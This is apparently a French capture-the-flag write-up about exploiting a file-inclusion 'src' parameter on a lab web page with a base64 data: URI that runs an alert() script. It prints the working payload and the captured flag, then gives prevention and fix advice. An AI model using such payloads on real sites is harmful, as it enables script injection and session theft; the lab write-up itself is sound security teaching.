


# Exploitation d'une LFI combinée à une XSS pour obtenir un Flag

## 1. Introduction
J'ai exploité une vulnérabilité liée à une **inclusion de fichier local (LFI)** combinée à une **injection XSS** sur le paramètre `src` de l'URL suivante :
```
http://10.211.55.2/?page=media&src=nsa
```
En injectant une **payload en base64** dans le paramètre `src`, j'ai réussi à exécuter du **JavaScript** dans le contexte de la page et à obtenir le **flag**.

## 2. Identification de la faille
En naviguant sur cette URL :
```
http://10.211.55.2/?page=media&src=nsa
```



J'ai remarqué que le paramètre `src` était **directement utilisé** pour charger du contenu sans être filtré. Cela m'a conduit à tester des **payloads d'injection**.

### **Hypothèse de faille : LFI et XSS**
- La page utilise probablement un **include()** ou un **require()** PHP non sécurisé avec le paramètre `src`.
- L'injection de contenu externe ou malveillant est **possible**.

## 3. Exploitation de la faille
J'ai testé une injection de **base64** dans le paramètre `src` pour injecter du **JavaScript** malveillant.

### **Payload utilisée** :
```plaintext
http://10.211.55.2/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=
```

- Le payload décode en :
```html
<script>alert(42)</script>
```
- Cela déclenche une **boîte d'alerte** avec le message `42`, confirmant la **vulnérabilité XSS**.

### **Résultat**
En validant l'exécution de la XSS, j'ai pu exploiter davantage la faille pour **accéder à des informations sensibles**. En cliquant sur l'image de la page `media`, le **flag** suivant est apparu :
```
928D819FC19405AE099921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

### **Capture d'écran du Flag**


## 4. Impact de la faille
Cette faille permet à un attaquant de :
- **Injecter du JavaScript malveillant** sur la page cible (XSS).
- **Voler des cookies** de session et **prendre le contrôle des comptes**.
- **Détourner la navigation** ou **défacer** le contenu de la page.

## 5. Comment prévenir cette faille
Pour éviter cette vulnérabilité :
- **Ne jamais inclure de fichiers** basés sur des paramètres utilisateur sans validation stricte.
- **Nettoyer et valider** toutes les entrées utilisateur (whitelisting).
- **Désactiver l'inclusion de wrapper** comme `data:` dans `php.ini` :
```ini
allow_url_include = Off
allow_url_fopen = Off
```
- **Échapper les sorties** pour prévenir l'exécution de balises `<script>` :
```php
$html = htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
```

## 6. Comment corriger la faille
Pour corriger cette faille :
- **Filtrer et valider** le paramètre `src` pour n'accepter que des valeurs prédéfinies :
```php
$allowed_sources = ['nsa', 'earth', 'mars'];
if (in_array($_GET['src'], $allowed_sources)) {
    include($_GET['src'] . ".php");
} else {
    echo "Source invalide.";
}
```
- **Supprimer l'utilisation de data URI** pour le paramètre `src`.
- **Utiliser des Content Security Policy (CSP)** pour empêcher l'exécution de scripts non autorisés.

## 7. Conclusion
J'ai exploité une **LFI** combinée à une **XSS** en injectant du contenu en **base64** dans le paramètre `src` pour exécuter du **JavaScript malveillant**. Cela m'a permis d'obtenir un **flag** sensible.
